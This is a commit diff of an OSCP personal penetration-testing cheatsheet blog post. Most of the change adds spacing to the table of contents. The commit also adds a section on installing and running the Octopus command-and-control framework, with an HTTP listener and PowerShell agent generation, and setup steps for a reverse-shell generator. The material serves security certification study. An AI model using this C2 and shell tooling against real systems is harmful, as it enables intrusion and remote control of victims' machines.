

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-09-18-OSCP-personal-cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 21385 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-09-18-OSCP-personal-cheatsheet.md
+++ b/_posts/2020-09-18-OSCP-personal-cheatsheet.md
@@ -6,23 +6,30 @@ description: "OSCP personal cheatsheet"
 ---
 
 - [Enumeration](#enumeration)
+
 - [NMAP](#nmap)
   * [TCP](#tcp)
   * [UDP](#udp)
+
 - [FTP - 21](#ftp---21)
+
   * [Brute force](#brute-force)
   * [Downloading file](#downloading-file)
   * [Uploading file](#uploading-file)
+
 - [SSH - 22](#ssh---22)
   * [Brute force](#brute-force-1)
   * [CVE-2008-0166](#cve-2008-0166)
   * [SSH backdoor - post exploitation](#ssh-backdoor---post-exploitation)
+
 - [DNS - 53](#dns---53)
   * [Zone transfert](#zone-transfert)
   * [DNS brute force](#dns-brute-force)
+
 - [FINGER - 79](#finger---79)
   * [User enumeration](#user-enumeration)
   * [Command execution](#command-execution)
+
 - [HTTP - HTTPS - 80 - 443](#http---https---80---443)
   * [Automatic scanners](#automatic-scanners)
   * [Wordpress](#wordpress)
@@ -58,16 +65,21 @@ description: "OSCP personal cheatsheet"
   * [XSS](#xss)
   * [Other web vulnerabilities](#other-web-vulnerabilities)
   * [Upload a file with PUT](#upload-a-file-with-put)
+
 - [KERBEROS - 88](#kerberos---88)
+
 - [POP3 - 110](#pop3---110)
   * [Brute force](#brute-force-3)
   * [Read mail](#read-mail)
+
 - [SNMP - 161](#snmp---161)
   * [Brute force community string](#brute-force-community-string)
   * [Modifying SNMP values](#modifying-snmp-values)
+
 - [LDAP - 389](#ldap---389)
   * [Scans](#scans)
   * [Graphical Interface](#graphical-interface)
+
 - [SMB - 445](#smb---445)
   * [Version if nmap didn't detect it](#version-if-nmap-didnt-detect-it)
   * [Scan for vulnerability](#scan-for-vulnerability)
@@ -82,21 +94,25 @@ description: "OSCP personal cheatsheet"
     * [If this doesn't work, try this one](#if-this-doesnt-work-try-this-one)
   * [MS08-067](#ms08-067)
   * [CVE-2017-7494](#cve-2017-7494)
+
 - [MSSQL - 1433](#mssql---1433)
   * [Get information](#get-information)
   * [Brute force](#brute-force-5)
   * [Having credentials](#having-credentials)
   * [Manual exploit](#manual-exploit)
+
 - [NFS - 2049](#nfs---2049)
   * [Show Mountable NFS Shares](#show-mountable-nfs-shares)
   * [Mount a share](#mount-a-share)
   * [NFS misconfigurations](#nfs-misconfigurations)
+
 - [MYSQL - 3306](#mysql---3306)
   * [Brute force](#brute-force-6)
   * [Extracting MySQL credentials from files](#extracting-mysql-credentials-from-files)
   * [Connect](#connect)
   * [MySQL commands](#mysql-commands)
   * [Manual exploit](#manual-exploit-1)
+
 - [RDP - 3389](#rdp---3389)
   * [Brute force](#brute-force)
   * [Connect with known credentials / hash](#connect-with-known-credentials--hash)
@@ -104,6 +120,7 @@ description: "OSCP personal cheatsheet"
     + [Get openned sessions](#get-openned-sessions)
     + [Access to the selected](#access-to-the-selected)
   * [Adding user to RDP group (Windows)](#adding-user-to-rdp-group-windows)
+
 - [VNC - 5800 - 58001 - 5900 - 5901](#vnc---5800---58001---5900---5901)
   * [Scans](#scans-1)
   * [Brute force](#brute-force-8)
@@ -112,28 +129,43 @@ description: "OSCP personal cheatsheet"
     + [Linux](#linux)
     + [Windows](#windows)
   * [Decrypt VNC password](#decrypt-vnc-password)
+
 - [WINRM - 5985 - 5986](#winrm---5985---5986)
   * [Brute force](#brute-force-9)
   * [Connecting](#connecting)
+
 - [CGI](#cgi)
+
   * [Found CGI scripts](#found-cgi-scripts)
+
+- [Command and control framework](#command-and-control-framework)
+
 - [Compiling exploits](#compiling-exploits)
+
   * [For linux](#for-linux)
   * [For windows](#for-windows)
   * [Cross compile](#cross-compile)
+
 - [DICTIONARY GENERATION](#dictionary-generation)
+
 - [FILE TRANSFER](#file-transfer)
   * [Linux](#linux-1)
   * [Windows](#windows-1)
+
 - [GIT](#git)
   * [Download .git](#download-git)
   * [Extract .git content](#extract-git-content)
+
 - [HASHES](#hashes)
   * [Windows](#windows-2)
   * [Linux](#linux-2)
+
 - [MIMIKATZ](#mimikatz)
+
 - [MISCELLANEOUS](#miscellaneous)
+
   * [Get a Windows path without spaces](#get-a-windows-path-without-spaces)
+
 - [MSFVENOM PAYLOAD](#msfvenom-payload)
   * [Linux](#linux-3)
   * [Windows](#windows-3)
@@ -147,6 +179,7 @@ description: "OSCP personal cheatsheet"
   * [Listener](#listener)
     + [Metasploit](#metasploit)
     + [Netcat](#netcat)
+
 - [PASSWORD CRACKING](#password-cracking)
   * [Online](#online)
   * [Hashcat](#hashcat)
@@ -155,9 +188,11 @@ description: "OSCP personal cheatsheet"
     + [Others](#others)
     + [Rules](#rules)
   * [John](#john)
+
 - [PIVOTING](#pivoting)
   * [Sshuttle](#sshuttle)
   * [Proxychains](#proxychains)
+
 - [PRIVILE ESCALATION](#privile-escalation)
   * [Linux](#linux-4)
     + [Enumeration scripts](#enumeration-scripts)
@@ -217,7 +258,9 @@ description: "OSCP personal cheatsheet"
   * [Determine more information about the environment](#determine-more-information-about-the-environment)
   * [List processes running](#list-processes-running)
   * [List the allowed (and forbidden) commands for the invoking use](#list-the-allowed-and-forbidden-commands-for-the-invoking-use)
+
 - [USEFUL WINDOWS COMMANDS](#useful-windows-commands)
+
 - [ZIP](#zip)
 
 ------
@@ -1202,6 +1245,29 @@ ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/F
 ```
 
 If a script is found try [SHELLSHOCK](#shellshock).
+
+------
+
+## Command and control framework
+
+```
+# Download
+git clone https://github.com/mhaskar/Octopus/tree/v1.2
+
+# Install requirements
+pip install -r requirements.txt
+
+# Usage
+./octopus.py
+
+# Listener (exemple)
+listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
+listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1
+
+# Agent (exemple)
+generate_powershell <LISTENER_NAME>
+generate_powershell listener_1
+```
 
 ------
 
@@ -2026,6 +2092,19 @@ echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. &
 
 ## REVERSE SHELL
 
+### Amazing tool for shell generation
+
+```
+# Download
+git clone https://github.com/ShutdownRepo/shellerator
+
+# Install requirements
+pip3 install --user -r requirements.txt
+
+# Executable from anywhere
+sudo cp shellrator.py /bin/shellrator
+```
+
 ### Bash
 
 ```
````
Also changed, not shown: other parts of _posts/2020-09-18-OSCP-personal-cheatsheet.md (+13 -7 lines).
